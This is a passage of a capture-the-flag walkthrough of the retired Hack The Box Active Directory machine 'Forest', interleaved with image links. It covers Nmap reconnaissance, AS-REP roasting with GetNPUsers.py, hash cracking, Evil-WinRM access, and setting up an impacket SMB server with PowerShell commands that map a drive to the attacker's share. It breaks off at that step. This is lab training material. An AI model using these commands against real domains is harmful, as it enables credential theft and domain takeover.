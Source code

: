 ```yaml
---
title: "Forest HTB"
date: 2024-08-07 20:17:41 +0800
categories: [Forest, Medium]
tags: [Forest, HTB, HTB Walkthrough]
---
```




Summary
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*dXRZJfXkJbQkwH4ZerHHPw.png

The article provides a detailed walkthrough of compromising an Active Directory machine on Hack The Box (HTB), named Forest, including reconnaissance, enumeration, exploitation, and privilege escalation techniques.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*38m_4ozFaZe4VKGerMKpyA.png

Abstract
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*2iAr73r4ngg87PpW3I0ylA.png

The author of the article, a cybersecurity enthusiast, documents their journey through attacking the Forest machine on HTB as part of an Active Directory series. The process begins with reconnaissance using tools like Nmap, followed by enumeration with rpcclient, Kerberos, and LDAP searches. The exploitation phase involves cracking Kerberos pre-authentication hashes and using the credentials to access shared services. The article emphasizes the use of tools such as evil-winrm for gaining initial access and SharpHound for domain enumeration. The privilege escalation section covers the use of BloodHound to identify attack paths, the addition of a user to a privileged group for DCSync attacks, and finally, achieving administrative privileges using ntlmrelayx and Impacket's secretsdump.py. The article concludes with a successful demonstration of obtaining the root flag and a reflection on the complexity of the attack.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Ecnt7aNYh1m_iAUJvnQl3Q.png

Opinions
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*rY2CsH-2OnPmKfz3SX1S0w.png

Forest HTB Retired Machine: Active Directory 02
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*e4tcQmmlIqgSvRo9KP2ajg.png

Series Intro:
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*r5EY3DGSgVtqMX77r4c6Dw.png

Hello Hackers, Today we are gonna attack another HTB retired machine in our Active Directory series for a better practical learning experience for me. As soon as I’m done with this series, I’m gonna make tutorials on each stage of compromising active directory domain controller with detailed mind maps. feel free to follow up If anything interests you.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*70ULGxFkx7Qrl0YQjB_3NA.png

Reconnaissance:
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*FvXmzjMkTPwwCPSXM6lwKA.gif

Analyzing Nmap result:
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*5HTVVemls77y378aB9bYcw.png

We got 135 rpc, 389 ldap, 445 smb & 5985 winrm service open ports.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*pDZtxvFlQGEupNv5VbtJRg.png

Enumeration:
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*jP_6xTw0av0aSi7OCZnZOA.png

Further, after this, Let’s focus on the enumeration of these ports.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*1BmQttIQ5ujYa7WCHA38Lg.png

Tools we can use:
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*1ySPgG-iTBzLJ2sBWAlKmA.png

You can try rpcclient, for Kerberos(Impacket libraries like Getuserspns.py, GetADUsers.py, GetNPUsers.py), smbclient/smbmap & evil-winrm for winrm are common enumeration tools.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*e43OVpgRPv6ygKPRFbowIQ.png

First I started Enumeration with rpcclient & while smbclient those don’t seem to work with an anonymous login. we can also go for an LDAP search or do some LDAP scans for more information. I see that the domain name “htb.local” from
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*cbDP4CNPFgB21IyFxBDAgw.png

namingContexts: DC:htb, DC=local.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*NOsN0JR4c7oEDGRGaFc20w.png

But I just went with Kerberos, Normally for attacking Kerberos we need usernames since, Anonymous Login is allowed & it is successful.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*GbPiTDFR0Gs6pTD6gnoCYA.png

we have something that can be logged in that’s all we need for now.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*gXjAXVCnSRVDGcbfTZfSJA.png

GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*9RCQNEAOKXYgq0Apt5VYTA.png

Yeyy(❁´◡`❁)!! That did give us TGT for some account .
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*3wBh5m7ljf1pKN_ELcJ9VQ.png

Background knowledge on how this was working ASREP-Roasting
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*w1FmeNp6DzTUDIrcBe7hTw.png

ASREP-Roasting
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*vIgTB5HI67kF70xmsefKjA.png

we can see the username and domain name attached to it. I googled cracking krb5asrep hashes. or you search it with hashcat,
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*PRzkpGVcmPvI5CA8KWRGUw.png

hashcat -h | grep -i “AS-REP” for offline approach.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*nqp1W4QzXhL8NbQg4oK81Q.png

And done, we just got our first credentials😁. Let’s try this out on the services we already know.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*LZuFwS23lfDfr4VsWRSnmw.png

Exploitation:
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*ay5A2Onbfx3d8xgaQ2GeUQ.png

we can see that, we still have only read-access on the shares which wasn’t preventing us from getting a shell with these shares.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*olE1-t1Zp-PWaF5_bdlkjA.png

Saving up the hassle for you, I tried smbclient but it got me nowhere.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*DM6KQCKSstbwmn-HRmabsg.png

Since We also got the Winrm remote management service for this machine. which would normally used by system administrators to access the machine using remote management. A quick tool that can come to my mind is gonna be, Evil-winrm.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*TGnGrQCQIFbyx9Mm6RC4dg.png

Tada!!! We got the User flag!!!!!!!!!!!!!!!!!!
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*YOaN2fJrnR2H90f01kQSyQ.png

Done?? Not yet!!
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*Y3qF2FgBLj0imJoSl7PJZg.png

Priv-Escalation as Administrator:
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*sKlmM5KZRWcZiAxBQX3nJw.png

After trying tried run Privilege Escalation methods like winpeasx64 and Windows local exploit suggesters. Since we are getting information out of LDAP. Seems like it is less authenticated.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*nCwrQSz19o1oLKZTeaT9aA.png

We can fire up Bloodhound on the victim machine and Gather all information on the domain controller in one place. It might get intimidating but we are just gathering enumerating domain information through BloodHound here.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*N5eqM-zWpjcm0mupqYzRUA.png

We will be needing a smbserver connection between the alfresco machine and Kali for easy file transfer. Most of the time we will be getting smb shell. So, this is better in that case.     
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*TuCoz17Sh748rvfnIWuP6g.png

For that, Step 1: we need to start a smbserver on our end to get access from our victim as a share. for better file transfer.
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*QP9Fpa5wqFXPEpLo8qgQDA.gif

sudo impacket-smbserver tmp $(pwd) -smb2support -user smbserver -password anypassword
https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*VAKgNxddT-bWgWaHyT6Vbg.png

Step 2: Then to access this share of ours on the victim machine do the following commands.
https://miro.readmedium.com/v2/resize:fill:88:88/1*SUoFvr46ph7l29W8B5W6VA.png

Step 3: Finally, Creating a drive with this share while Assigning it as the root directory can give us root access.
https://miro.readmedium.com/v2/resize:fill:88:88/1*v1ya57W4uJxUiwT02c8dCA.png

Complete these three steps:
https://miro.readmedium.com/v2/resize:fill:88:88/1*l5fK8FSzNIoABmkxgZZhHg.png

$pass = convertto-securestring ‘anypassword’ -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential (‘servername’, $pass)
https://miro.readmedium.com/v2/resize:fill:88:88/1*cwYWYCjbeXNc_pAtTeq_Zg.jpeg

New-PSDrive -Name anyname -PSProvider FileSystem -Credential $cred -Root \\10.10.x.x\tmp
https://miro.readmedium.com/v2/resize:fill:88:88/1*VX67EZEBNQ0b6-vuizdTPw.png

SMB Share Connection is Established.
https://miro.readmedium.com/v2/resize:fill:88:88/0*isqPwKeV9B4Uh73Q